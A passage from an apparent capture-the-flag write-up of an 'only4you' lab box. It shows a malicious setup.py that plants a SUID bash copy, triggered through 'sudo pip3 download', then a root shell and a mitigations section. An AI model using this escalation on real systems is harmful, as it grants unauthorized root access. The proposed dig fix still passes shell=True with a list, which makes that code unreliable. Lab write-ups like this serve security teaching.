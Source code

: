 ```bash
john@only4you:~$ cat setup.py
#!/usr/bin/python3
import os
os.system('cp /bin/bash /tmp')
os.system('chmod u+s /tmp/bash')

john@only4you:~$ sudo /usr/bin/pip3 download http://127.0.0.1:3000/john/Test/archive/master.tar.gz
Collecting http://127.0.0.1:3000/john/Test/archive/master.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/archive/master.tar.gz (340 bytes)
ERROR: Files/directories not found in /tmp/pip-req-build-9evz475i/pip-egg-info

john@only4you:~$ ls -ltr /tmp/
total 9612
...

drwx------ 3 john     john        4096 May  7 14:11 pip-req-build-raq30zoy
drwx------ 3 john     john        4096 May  7 14:11 pip-req-build-3nxnh2fm
drwx------ 3 john     john        4096 May  7 14:12 pip-req-build-5l3_dyvu
drwx------ 3 john     john        4096 May  7 14:13 pip-req-build-nay7j_rc
drwx------ 3 root     root        4096 May  7 14:14 pip-req-build-pf28kal6
drwx------ 3 root     root        4096 May  7 14:16 pip-req-build-9evz475i
-rwsr-xr-x 1 root     root     1183448 May  7 14:16 bash
```

I ran it to become root, and read the flag.
```bash
john@only4you:~$ /tmp/bash -p

bash-5.0# whoami
root

bash-5.0# cat /root/root.txt
REDACTED
```

## Mitigations

The first fix on this box is in the beta application. Most of the code already sanitize the filename. But for some reason, the download function does not do it the same way. Calling secure_filename there would have prevented me from reading the other application source code.

```python
def download():
    image = request.form['image']
    filename = secure_filename(image)
```

Next, the regex used to validate the email would have been safer if it used anchor to make sure it matches the entire strings. The call to dig should also use parameterization instead of building a string with user input.

```python
def issecure(email, ip):
	#if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
	if not re.match("^([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})$", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		#result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		result = run(["dig", "txt", domain], shell=True, stdout=PIPE)
```
